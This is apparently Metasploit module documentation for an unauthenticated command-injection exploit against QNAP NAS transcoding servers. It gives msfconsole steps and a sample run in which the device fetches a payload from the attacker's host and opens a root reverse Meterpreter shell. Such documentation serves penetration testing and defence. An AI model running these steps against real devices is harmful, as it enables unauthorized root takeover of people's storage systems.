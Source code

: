 ## Description

  This module exploits an unauthenticated remote command injection vulnerability in QNAP NAS devices. The transcoding server listens on port 9251 by default and is vulnerable to command injection using the 'rmfile' command.


## Vulnerable Application

  [QNAP](https://www.qnap.com/) designs and delivers high-quality network attached storage (NAS) and professional network video recorder (NVR) solutions to users from home, SOHO to small, medium businesses.

  This module was tested successfully on a QNAP TS-431 with firmware version 4.3.3.0262 (20170727).


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/misc/qnap_transcode_server`
  3. Do: `set RHOST [IP]`
  4. Do: `set LHOST [IP]`
  5. Do: `run`
  6. You should get a session


## Options

### Delay

  How long to wait (in seconds) for the device to download the payload.


## Scenarios

  ```
  msf > use exploit/linux/misc/qnap_transcode_server 
  msf exploit(qnap_transcode_server) > set rhost 10.1.1.123
  rhost => 10.1.1.123
  msf exploit(qnap_transcode_server) > check
  [*] 10.1.1.123:9251 The target service is running, but could not be validated.
  msf exploit(qnap_transcode_server) > set lhost 10.1.1.197
  lhost => 10.1.1.197
  msf exploit(qnap_transcode_server) > run

  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] 10.1.1.123:9251 - Using URL: http://0.0.0.0:8080/IQrgbm
  [*] 10.1.1.123:9251 - Local IP: http://10.1.1.197:8080/IQrgbm
  [*] 10.1.1.123:9251 - Sent command successfully (52 bytes)
  [*] 10.1.1.123:9251 - Waiting for the device to download the payload (30 seconds)...
  [*] 10.1.1.123:9251 - Sent command successfully (22 bytes)
  [*] 10.1.1.123:9251 - Sent command successfully (13 bytes)
  [*] Meterpreter session 1 opened (10.1.1.197:4444 -> 10.1.1.123:53888) at 2017-08-13 05:05:18 -0400
  [*] 10.1.1.123:9251 - Sent command successfully (19 bytes)
  [*] 10.1.1.123:9251 - Command Stager progress - 100.00% done (109/109 bytes)
  [*] 10.1.1.123:9251 - Server stopped.

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo 
  Computer     : 10.1.1.123
  OS           :  (Linux 3.2.26)
  Architecture : armv7l
  Meterpreter  : armle/linux
  ```

